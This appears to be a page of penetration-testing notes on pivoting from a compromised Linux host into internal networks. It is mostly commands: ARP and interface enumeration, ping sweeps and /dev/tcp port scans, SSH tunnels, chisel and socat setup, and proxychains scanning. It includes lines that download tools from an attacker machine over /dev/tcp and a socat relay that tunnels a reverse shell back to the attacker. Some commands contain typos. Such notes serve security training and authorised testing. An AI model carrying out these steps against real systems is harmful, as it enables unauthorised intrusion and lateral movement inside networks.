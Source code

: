 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment.&#x20;

## Pivoting Enumeration

### Enumerating the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```
arp -a
```

### Enumerating Name Resolution

On Unix/Linux systems, we can find the name resolution mappings in:

```
/etc/hosts
```

On Unix/Linux there is a file that identifies local DNS servers:

```
/etc/resolv.conf
nmcli dev show
```

### Enumerating Network Interface Cards (NICs)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig **or **ip **commands:

```
ifconfig
ip a
```

Then we must review the output:

```
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running.&#x20;

### Enumerating Hosts

```
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24


# You can use either {1..255} or `seq 1 255`

for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
for i in {1..255}; do (ping -c 1 20.20.20.${i} | grep "bytes from" &); done
for i in {1..255}; do ping -c 1 172.20.0.$i; done | grep 'ttl='
for i in `seq 1 255`; do (ping -c 1 172.20.0.$i > /dev/null && echo "172.20.0.$i is up" &); done

```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -> **victim machine**
* 10.10.10.10 -> **pivoting machine**
* attacker -> **attacker machine**

### **Enumerating Ports**

If you found a host, you may want to do a port scan:

```
for port in {1..30}; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
for port in `seq 1 30`; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
```

## Pivoting Example

127.0.0.1:3000 <- Aogiri(10.10.10.101):3000 <- Kaneki\_pc(172.20.0.150):3000 <- Gogs(172.18.0.2):3000

Let’s try that, first SSH into 10.10.10.101 then forward port 3000 from 172.18.0.2 through kaneki-pc.

```bash
kaneki@Aogiri:~$ ssh -L 3000:172.18.0.2:3000 kaneki_pub@172.20.0.150
```

Then forward from Aogiri to our host (127.0.0.1):

```bash
kali@kali:~$ ssh -L 3000:127.0.0.1:3000 -i kaneki.backup kaneki@10.10.10.101
```

## Pivoting with chisel

Get chisel and build it.

```
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```
./chisel server --reverse -p 1234
```

* On pivoting machine

```
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

## Pivoting with socat

Get socat static binary:

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

## Pivoting with SSH

#### SOCKS Proxy

```
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

### SSH Dynamic Port Forwarding

If the target has more than one NIC and more than one network subnet than we can use proxychains.

In Kali edit the proxychains configuration file:

```
sudo vim /etc/proxychains.conf
```

Add this lines:

```
[ProxyList]
socks4 127.0.0.1 8080
```

Perform a dynamic port forwarding to our port 8080

```
sudo ssh -N -D 127.0.0.1:8080 username@<target-IP>
```

Then scan with nmap and specify a TCP scan with `-sT` and don't use `ICMP` with `-Pn`.

```
proxychains nmap -p- -sT -Pn <target-Second-Interface-IP>
```



